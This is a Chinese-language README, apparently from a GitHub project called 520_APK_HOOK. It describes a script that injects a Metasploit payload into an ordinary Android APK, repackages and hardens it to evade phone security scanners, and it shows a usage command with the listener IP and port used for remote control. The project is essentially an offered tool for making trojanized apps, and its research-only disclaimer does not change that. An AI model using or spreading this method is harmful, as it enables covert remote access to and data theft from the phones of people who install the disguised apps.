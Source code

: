 # 520_APK_HOOK



## 介绍



* 将msf生成的payload，注入到一个正常的apk文件中，重新打包后进行加固，bypass手机安全管家的检测。

* 作者: BaoGuo



## 重点说明



* 项目目前由于加固脚本问题, 目前只支持单classes.dex文件操作.

* 本项目仅用于安全研究, 禁止利用脚本进行攻击, 使用本脚本产生的一切问题和本人无关.



## 项目依赖



* 本项目参考以下项目

* [Java层DEX一键加固脚本](https://github.com/yongyecc/apksheller)

* [APK Infector](https://github.com/PushpenderIndia/apkinfector)



## 使用



1. 使用Linux或者macos主机, 安装python3, openjdk8, metasploit-framework.
2. 使用python3生成apk文件, 需要指定msf远控链接的IP和端口.

```sh
➜  ~ cd 520apkhook
➜  520apkhook python3 hook.py --lhost 192.168.0.21 --lport 1433 -n ./base.apk

[*] 创建随机字符串,用来修改msf payload!
[+] 生成成功!

[*] 检查电脑上的开发环境
================================

[:] NOTE : 请确认安装jdk8环境!

[*] 检查 : Jdk版本
javac 1.8.0_282
[+] JDK - OK
......

// --host 指定msf远控的IP
// --lport 指定msf远控端口
// -n 指定被注入的apk文件路径
```
